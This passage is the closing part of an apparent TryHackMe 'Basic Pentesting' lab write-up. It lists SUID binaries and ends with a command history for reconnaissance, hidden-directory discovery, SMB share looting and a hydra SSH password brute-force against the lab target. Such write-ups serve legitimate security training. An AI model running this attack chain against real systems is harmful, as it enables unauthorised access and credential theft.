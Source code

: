 ```bash
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/newgidmap
/usr/bin/at
/usr/bin/gpasswd
/usr/bin/newuidmap
/usr/bin/passwd
/bin/su
/bin/ntfs-3g
/bin/ping6
/bin/umount
/bin/fusermount
/bin/mount
/bin/ping
```
23. `vim {FILE4}.bak` to open the backup file with the Vim text editor, which ended up revealing the final password for this challenge 

![](https://github.com/JonmarCorpuz/Writeups/blob/main/TryHackMe%20Writeups/Assets/THM%20-%20Basic%20Pentesting/vim.png)

**Romm completed!**

![](https://github.com/JonmarCorpuz/Writeups/blob/main/TryHackMe%20Writeups/Assets/TryHackMe%20-%20Basic%20Pentesting.png)

# Command History
1. `nmap -sC -sV {TARGET-IP} > {FILENAME1}.txt`
2. `cat {FILENAME1}.txt`
3. `dirb http://{TARGET IP} -r > {FILENAME2}.txt`
4. `cat {FILENAME2}.txt`
5. `firefox "http://{TARGET-IP}/{HIDDEN-DIRECTORY}"`
6. `curl http://10.10.254.39/{HIDDEN DIRECTORY}/{FILE1}.txt`
7. `curl http://10.10.254.39/{HIDDEN DIRECTORY}/{FILE2}.txt`
8. `smbmap -L {TARGET IP}`
9. `smbclient //{TARGET IP}/{SHARENAME1} -c "ls"`
10. `smbclient //{TARGET IP/{USER} -c "get {FILE3}.txt"`
11. `cat {FILE3}.txt`
12. `hydra -l {USER2} -P {WORDLIST PATH} ssh//{TARGET IP}`